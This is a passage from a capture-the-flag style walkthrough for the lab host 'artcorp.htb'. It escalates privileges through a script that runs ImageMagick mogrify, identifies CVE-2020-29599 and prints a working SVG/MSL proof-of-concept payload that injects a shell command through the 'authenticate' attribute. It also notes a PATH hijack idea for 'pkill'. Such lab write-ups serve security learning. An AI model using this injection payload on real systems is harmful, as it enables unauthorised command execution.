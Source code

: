 Let's check out the `/usr/local/bin/convert_images.sh` script.

```bash
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

The script uses `pkill` without an absolute path so if we had write permissions to somewhere on the global `PATH` variable we could replace that command with our own script, but we do not have these write permissions.

Running `mogrify` produces a long help output with the version string at the top: `Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org`. Searching online for "imagemagick 7.0.10-36 exploit" finds [this page](https://www.cybersecurity-help.cz/vdb/SB2020121303) at the top of the results, which discusses [CVE-2020-29599](https://nvd.nist.gov/vuln/detail/CVE-2020-29599): "A flaw was found in ImageMagick. The -authenticate option is mishandled allowing user-controlled password set for a PDF file to possibly inject additional shell commands via coders/pdf.c. The highest threat from this vulnerability is to data confidentiality and integrity as well as system availability." This vulnerability works for "ImageMagick before 6.9.11-40 and 7.x before 7.0.10-40." We are running version `7.0.10-36`, which is before `7.0.10-40`, so this exploit should work.

Searching for "imagemagick XML injection," which is what this vulnerability is, finds [this news article on PortSwigger](https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image) and [this blog post by the person who found the vulnerability](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html). Additionally, searching for "CVE-2020-29599" on GitHub finds [coco0x0a/CVE-2020-29599](https://github.com/coco0x0a/CVE-2020-29599).

There is a proof of concept image on the vulnerability finder's website:

```xml
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Let's change this slightly so that the `0wned` file gets placed in a known location:

```xml
<image authenticate='ff" `echo $(id)> /tmp/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
